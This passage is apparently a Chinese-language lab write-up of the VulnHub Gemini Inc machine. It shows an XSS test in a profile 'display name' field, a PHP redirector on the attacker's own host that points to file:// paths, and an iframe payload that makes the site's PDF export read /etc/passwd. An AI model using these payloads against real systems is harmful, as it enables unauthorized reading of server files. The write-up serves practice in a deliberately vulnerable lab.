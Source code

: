 

在修改资料中我们可以完全控制的有一个`display name`字段，尝试插入一些`script`字段发现也可以成功插入

```html
<script>alert(/xss/)</script>
```

![](vulnhub-GeminiInc\7.png)

这样的话，感觉接下来应该是插入一些特殊的标签，来攻击靶机

但是，我尝试了所有我能想到的攻击方式，却起不了一点作用，于是看了下别人的writeup

首先现在自己的www目录下写入这样一个php文件，

1.php

```php
<?php
$filename = $_GET['file'];
header("Location: file://$filename");
```

然后在`display name`字段中插入

```html
<iframe src="http://192.168.85.134/1.php?file=/etc/passwd" width="100%" height=1220></iframe>
```

导出pdf之后，就能看到，读取出了靶机中的`/etc/passwd`文件
